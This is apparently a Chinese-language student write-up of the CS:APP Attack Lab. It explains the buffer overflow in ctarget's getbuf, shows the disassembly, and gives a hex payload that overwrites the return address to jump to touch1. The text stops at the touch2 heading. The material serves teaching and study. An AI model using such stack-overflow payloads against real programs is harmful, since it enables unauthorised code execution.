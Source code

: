 # 任务理解
> 具体请详细阅读readme.md和writeup
简单来说，ctarget和rtarget是两个有buffer overflow bug的程序。我们需要通过code injection(代码注入) 和 returned-oritened programming（返回导向编程）的方式攻击这两个程序。

而这个bug的来源就是他们会通过标准化输入读取一段字符串，并存到栈上。

测试方法如下：
```
    unix> ./hex2raw < xxx.txt | ./ctarget -q
```
xxx.txt 就是输入的内容。要求输入为16进制数字对，用空格隔开。

# 基础知识
1. call指令
   将PC值压入栈空，jmp到函数所在为止
2. ret指令
   pop PC

# 准备工作
反汇编ctarget
```
objdump -S ctarget > ctarget.lst
```

## 程序入口test函数
```asm
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	call   4017a8 <getbuf>
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	call   400df0 <__printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
  401990:	c3                   	ret    
```
## getbuf

```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret   
```
栈空间分配了0x28 = 40B空间，这个空间用来存放标准输入的数据。

## touch1

``` asm
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	call   400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	call   401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	call   400e40 <exit@plt>
```
为了让test调用完getbuf()后，不会回到test函数，而是跳转到touch1()，需要修改栈中存储的PC值。
那么可以通过传入字符串填满getbuf()栈空间，并且修改栈中的PC值，所以传入字符串大小大于40B，40B数据后为touch1地址。
touch1.txt如下：
```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 00 00 00 00 00
```
## touch2

